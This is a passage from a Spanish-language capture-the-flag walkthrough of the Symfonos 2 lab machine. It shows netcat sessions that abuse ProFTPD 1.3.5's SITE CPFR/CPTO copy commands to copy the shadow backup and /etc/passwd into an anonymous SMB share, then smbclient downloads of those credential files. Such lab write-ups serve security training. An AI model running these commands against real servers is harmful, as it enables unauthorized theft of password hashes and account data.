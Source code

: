 <img src="https://github.com/El-Palomo/SYMFONOS-2/blob/main/symfonos5.jpg" with=80% />

- Copiamos el archivo SHADOW.BAK 

```
root@kali:~/SYMFONOS2# nc 10.10.10.151 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.10.151]
site cpfr /var/backups/shadow.bak /home/aeolus/share/shadow.bak
550 /var/backups/shadow.bak /home/aeolus/share/shadow.bak: No such file or directory
site cpfr /var/backups/shadow.bak
350 File or directory exists, ready for destination name
site cpto /home/aeolus/share/shadow.bak
250 Copy successful
```

- Copiamos el archivo PASSWD

```
root@kali:~/SYMFONOS2# nc 10.10.10.151 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.10.151]
site cpfr /etc/passwd /home/aeolus/share/passwd.bak
550 /etc/passwd /home/aeolus/share/passwd.bak: No such file or directory
site cpfr /etc/passwd
350 File or directory exists, ready for destination name
site cpto /home/aeolus/share/passwd.bak
250 Copy successful
```

> Descargarmos los archivos copiados.

```
root@kali:~/SYMFONOS2/autorecon/10.10.10.151/scans# smbclient \\\\10.10.10.151\\anonymous
Enter WORKGROUP\kali's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Mar 28 17:37:41 2021
  ..                                  D        0  Sun Mar 28 17:25:51 2021
  backups                             D        0  Thu Jul 18 10:25:17 2019
  passwd.bak                          N     1614  Sun Mar 28 17:36:40 2021
  shadow.bak                          N     1173  Sun Mar 28 17:30:34 2021

		19728000 blocks of size 1024. 16272996 blocks available
smb: \> get passwd.bak
getting file \passwd.bak of size 1614 as passwd.bak (525.4 KiloBytes/sec) (average 525.4 KiloBytes/sec)
smb: \> get shadow.bak
```